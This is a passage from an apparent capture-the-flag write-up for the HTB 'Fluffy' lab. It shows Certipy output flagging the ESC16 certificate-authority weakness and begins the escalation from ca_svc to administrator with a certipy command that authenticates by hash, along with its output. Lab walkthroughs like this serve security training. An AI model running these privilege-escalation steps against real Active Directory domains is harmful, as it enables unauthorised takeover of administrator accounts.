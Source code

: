 ```bash
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```
> Make sure you're using the latest version of certipy to find it!
{: .prompt-tip}

### ca_svc -> administrator

Looks like we may be able to use the [ESC16 Privesc](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally){:target="_blank"}{:rel="noopener noreferrer"}! We just need to follow the steps in the documentation

First let's read the initial `UPN` of the victim account
```bash
sync-ad certipy-ad account -u 'ca_svc@fluffy.htb' -hashes '<HASH_REDACTED>' -dc-ip 10.10.11.69 -user 'ca_svc' read
```

```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-08-14T01:09:48+00:00
```
